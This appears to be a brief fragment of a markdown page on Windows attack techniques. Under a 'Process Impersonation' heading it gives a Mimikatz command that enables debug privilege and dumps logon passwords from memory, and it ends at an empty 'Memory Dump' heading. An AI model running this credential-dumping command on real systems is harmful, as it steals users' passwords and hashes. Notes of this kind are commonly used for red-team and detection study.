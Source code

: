 


### Process Impersonation

Mimikatz impersonation of svchost


![svchost abuse](/assets/images/3.png)


```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```




### Memory Dump
